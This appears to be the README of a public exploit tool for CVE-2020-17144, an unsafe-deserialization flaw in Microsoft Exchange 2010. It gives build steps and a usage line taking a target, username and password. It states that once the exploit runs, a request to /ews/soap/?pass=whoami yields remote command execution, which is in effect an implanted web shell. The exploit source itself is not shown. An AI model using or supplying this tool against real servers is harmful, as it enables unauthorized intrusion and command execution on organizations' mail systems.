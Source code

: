 ## weaponized tool for CVE-2020-17144(Microsoft Exchange 2010 MRM.AutoTag.Model unsafe deserialize vulnerability)

### build

install .net framework 3.5 first, then `make`. 

### usage
	CVE-2020-17144 <target> <user> <pass>

After exploit, access http://[target]/ews/soap/?pass=whoami to get command execution.

![](https://raw.githubusercontent.com/zcgonvh/CVE-2020-17144/master/exp.jpg)

And you can also modify e.cs as a customize exp.

for more information, read [my-blog-post](http://www.zcgonvh.com/post/analysis_of_CVE-2020-17144_and_to_weaponizing.html)(in chinese).